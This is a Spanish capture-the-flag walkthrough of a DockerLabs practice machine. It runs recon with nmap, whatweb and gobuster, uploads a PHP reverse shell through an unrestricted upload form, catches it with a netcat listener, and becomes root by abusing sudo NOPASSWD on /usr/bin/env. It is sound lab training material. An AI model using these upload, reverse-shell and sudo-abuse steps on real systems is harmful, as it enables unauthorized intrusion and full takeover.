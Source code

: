 ## 1. Reconocimiento Inicial con Nmap

Realizamos un escaneo exhaustivo con `nmap` para detectar puertos abiertos, sus versiones y el sistema operativo. Esto nos proporciona una visión general de los servicios expuestos y posibles vulnerabilidades asociadas a sus versiones.

```bash
nmap -O -sC -sV <IP_DEL_OBJETIVO>
```

**Resultados Clave:**

*   `80/tcp open http Apache` El título de la página (`Upload here your file`) es una pista clara sobre la funcionalidad principal del sitio.

[SubirArchivo](https://github.com/WebReconSpider/the-hackbook/blob/main/Ejercicios/DockerLabs/2Facil/Imagenes/Upload_SubirArchivo.png)
### 1.2. Análisis de la Página Web con WhatWeb

Utilizamos `whatweb` para obtener más información sobre la tecnología utilizada en la página web. Esta herramienta escaneará la URL y reportará tecnologías, versiones y otros detalles.

```bash
whatweb <IP_DEL_OBJETIVO>
```

**Resultado:**
*   `Apache/2.4.52` en `Ubuntu Linux`.

### 1.3. Fuzzing Web con Gobuster

Realizamos un fuzzing de directorios con `gobuster` para descubrir rutas ocultas o archivos interesantes en el servidor web. Esto nos ayuda a mapear la estructura del sitio y encontrar posibles puntos de entrada.

```bash
gobuster dir -w /path/to/wordlist/directory-list-lowercase-2.3-medium.txt -u http://<IP_DEL_OBJETIVO>
```

**Resultados Relevantes:**

*   `/uploads`: Este directorio es crucial, ya que su nombre sugiere que es donde se almacenan los archivos subidos.
## 2. Explotación de la Vulnerabilidad de Carga de Archivos

La presencia de una funcionalidad de carga de archivos y un directorio `/uploads` accesible es una señal de una posible vulnerabilidad de carga de archivos sin restricciones, que puede llevar a la ejecución remota de código (RCE).

### 2.1. Creación de una Reverse Shell en PHP

Para obtener una shell inversa, crearemos un archivo PHP que, al ser ejecutado en el servidor, se conectará a nuestra máquina atacante. Utilizaremos un script de reverse shell PHP estándar, como el de `pentestmonkey`.

Descargar el script y modificar la dirección IP (`$ip`) a la IP de tu máquina atacante (Kali Linux) y el puerto (`$port`) al puerto que usarás para escuchar la conexión (por ejemplo, 443).

### 2.2. Carga del Archivo Malicioso

Utilizamos la interfaz de carga de archivos en `http://<IP_DEL_OBJETIVO>/` para subir nuestro `reverseShell.php` modificado. Si la carga es exitosa, el servidor responderá con un mensaje de confirmación como `The file reverseShell.php has been uploaded.`

### 2.3. Obtención de la Reverse Shell

1.  **Configurar el Listener:** En tu máquina atacante (Kali Linux), abre una terminal y configura un `netcat` listener en el puerto que especificaste en el script PHP (por ejemplo, 443).

    ```bash
    nc -lvnp 443
    ```

2.  **Ejecutar el Archivo Cargado:** Navega en tu navegador a la URL donde se cargó el archivo PHP: `http://<IP_DEL_OBJETIVO>/uploads/reverseShell.php`. Al acceder a esta URL, el servidor ejecutará el script PHP, lo que activará la conexión inversa a tu listener de `netcat`.

Deberías ver una conexión entrante en tu terminal de `netcat`.

```bash
whoami
www-data
```

Confirmamos que hemos obtenido una shell como el usuario `www-data`, que es el usuario bajo el que se ejecuta el servidor web Apache.

### 2.4. Tratamiento de la TTY (Opcional pero Recomendado)

Para una mejor interacción con la shell (autocompletado, historial, etc.), es recomendable convertirla en una TTY (terminal) interactiva. Esto se logra con los siguientes comandos:

1.  **Ejecutar `script`:**
    ```bash
    script /dev/null -c bash
    ```
2.  **Suspender el proceso:**
    ```bash
    Ctrl + Z
    ```
3.  **Configurar la terminal:**
    ```bash
    stty raw -echo; fg
    ```
4.  **Restablecer la terminal:**
    ```bash
    reset
    ```
5.  **Especificar tipo de terminal (si se pregunta):**
    ```bash
    xterm
    ```
6.  **Exportar variables de entorno:**
    ```bash
    export TERM=xterm
    export SHELL=bash
    ```

## 3. Escalada de Privilegios

Una vez que tenemos una shell como `www-data`, el objetivo es escalar privilegios a `root`.

### 3.1. Verificación de Permisos Sudo

Verificamos qué comandos puede ejecutar el usuario actual con `sudo` sin necesidad de contraseña. Esto se hace con el comando `sudo -l`.

```bash
sudo -l
```

**Resultados Clave:**

*   `(root) NOPASSWD: /usr/bin/env`

Esto significa que el usuario `www-data` puede ejecutar el binario `/usr/bin/env` como `root` sin necesidad de introducir su contraseña. El comando `env` se utiliza para ejecutar un programa en un entorno modificado, y puede ser abusado para escalar privilegios si está mal configurado en `sudo`.

### 3.2. Abuso de `env` para Obtener Root

Según GTFOBins, cuando `env` tiene permisos `NOPASSWD` en `sudo`, se puede abusar de él para ejecutar una shell con privilegios de `root`.

```bash
sudo -u root /usr/bin/env /bin/sh
```

Al ejecutar este comando, obtendremos una shell con privilegios de `root`.

```bash
whoami
# root
```

Confirmamos que hemos escalado exitosamente a `root`.
